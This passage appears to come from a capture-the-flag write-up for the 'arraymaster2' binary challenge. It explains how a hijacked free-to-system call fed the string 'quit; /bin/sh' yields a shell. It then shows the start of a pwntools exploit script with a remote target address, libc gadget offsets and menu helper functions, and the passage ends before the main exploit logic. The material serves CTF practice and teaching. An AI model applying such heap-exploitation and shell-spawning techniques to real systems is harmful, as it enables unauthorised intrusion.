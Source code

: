 In our case, the buffer will contain `quit; /bin/sh`, causing the program to quit and then calling `free` (i.e. `system`) on the pointer. `system` won't understand what `quit` means, but it will give us a shell due to `/bin/sh`.

Putting in all together:
```python
from pwn import *
import argparse


# context.log_level = "debug"
LOCAL_PATH = "./arraymaster2"

def get_process(is_remote = False):
    if is_remote:
        return remote("35.207.132.47", 22229)
    else:
        return process(LOCAL_PATH)

def get_libc_path(is_remote = False):
    if is_remote:
        return "./libc-2.27.so"
    else:
        return "/lib/x86_64-linux-gnu/libc.so.6"

def get_one_gadget(libc_base, is_remote = False):
    if is_remote: 
        return libc_base + [0x4f2c5, 0x4f322, 0x10a38c][2]
    else:
        return libc_base + 0x434b2

def read_menu(proc):
    proc.recvuntil("\n> ")

def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    return proc.recvuntil("\nEnter the command you want to execute.", drop = True)

def init(proc, arr_id, arr_type, arr_length):
    read_menu(proc)
    proc.sendline("init {} {} {}".format(arr_id, arr_type, arr_length))
    log.info("Initializing array '{}' (Type: int{}, Length: {})".format(arr_id, arr_type, arr_length))

def delete(proc, arr_id):
    read_menu(proc)
    proc.sendline("delete {}".format(arr_id))
    log.info("Deleting array '{}'".format(arr_id))

def set_entry(proc, arr_id, arr_index, value):
    read_menu(proc)
    proc.sendline("set {} {} {}".format(arr_id, arr_index, value))
    log.info("Setting index #{} of array '{}' to value '{}' ({})".format(arr_index, arr_id, value, hex(value)))

def get_entry(proc, arr_id, arr_index):
    read_menu(proc)
    proc.sendline("get {} {}".format(arr_id, arr_index))
    out = int(proc.recvline(keepends = False))
    log.info("Index #{} of array '{}' has value '{}' ({})".format(arr_index, arr_id, out, hex(out)))
    return out

```